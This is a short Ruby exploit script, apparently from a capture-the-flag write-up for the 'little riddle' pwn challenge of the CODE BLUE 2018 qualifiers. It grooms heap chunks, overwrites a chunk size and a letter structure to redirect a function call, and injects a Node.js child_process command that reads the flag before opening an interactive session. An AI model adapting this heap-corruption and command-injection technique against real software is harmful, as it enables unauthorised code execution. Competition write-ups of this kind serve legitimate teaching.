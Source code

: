 ```ruby  
 cmd = "require('child_process').exec('cat flag',(a,b,c)=>console.log(b+c))\0"

 puts "[*] prepare"  
 add_letter(0xc, "A" * 0xb, "1" * 0x1f + "\n", 1)  
 add_letter(0xc, "B" * 0xb, "2" * 0x1f + "\n", 1)  
 delete_letter(0);

 puts "[*] overwrite chunksize"  
 add_letter(0xc, "C" * 0xb, "3" * 0x20 + "\x53", 1)

 puts "[*] overwrite existing letter"  
 payload = ""  
 payload << "A" * 0x10  
 payload << [cmd.length].pack("L")  # length  
 payload << [0xff8].pack("L")  # buf (address of "_do_post_letters()"")  
 payload << [5].pack("L")  # func (__stdio_read)  
 payload << "A" * 0x1f  
 add_letter(payload.length + 1, payload, "AAAA\n", 1)

 puts "[*] call __stdio_read"  
 tube.recv_until_prompt  
 tube.sendline("5")

 puts "[*] send command to execute"  
 tube.send(cmd)

 tube.interactive  
}  
```  

Original writeup (https://github.com/Charo-
IT/CTF/blob/master/2018/codeblue_quals/writeup.md#little-riddle-pwn).